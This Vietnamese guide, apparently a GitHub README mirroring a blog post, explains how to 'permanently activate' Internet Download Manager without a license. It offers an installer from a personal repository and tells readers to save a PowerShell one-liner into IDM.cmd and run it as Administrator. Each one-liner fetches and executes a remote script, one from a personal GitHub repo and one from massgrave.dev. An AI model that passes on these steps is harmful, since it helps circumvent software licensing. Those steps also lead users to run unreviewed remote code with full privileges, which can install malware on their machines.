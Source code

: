# Kích hoạt IDM vĩnh viễn (Active IDM lifetime)
### [Bấm vào đây để xem hoặc để bình luận](https://bsngchithanh.blogspot.com/2025/03/kich-hoat-idm-vinh-vien-active-idm.html)

QR ngân hàng nếu quí khách có lòng hảo tâm, ủng hộ người soạn cà phê ạ!

![image](https://github.com/user-attachments/assets/5eb77be1-b312-4d0c-a5c0-ebc451629ac2)

- Đầu tiên bạn download bản IDM dùng thử từ [trang chủ](https://www.internetdownloadmanager.com) hoặc [tại đây](https://raw.githubusercontent.com/bschithanh/nguon/main/idman642build27.exe) về cài đặt bình thường, cài xong tắt tất cả IDM đang chạy.
- Mở **NotePad** lên, copy một trong 2 dòng code sau đây dán vào NotePad
  ```php
  powershell iex (irm https://raw.githubusercontent.com/bschithanh/nguon/main/idm.ps1)
  ```

  Hoặc:

  ```php
  powershell iex (irm https://massgrave.dev/ias)
  ```

  Sau đó **Save As** với tên **IDM.cmd**, rồi run file này bằng quyền **Run as Administrator** rồi làm theo hướng dẫn của cửa sổ hiện lên là xong, nếu một thời gian IDM bắt bản quyền thì bạn active lại bằng file **IDM.cmd** vừa tạo ra ở trên là xong.

  ![image](https://github.com/user-attachments/assets/8b639e27-49a2-44a8-bbad-790d6f534b9d)

  ![image](https://github.com/user-attachments/assets/0f36d069-d5e8-451a-a9f4-4d99baf12e82)

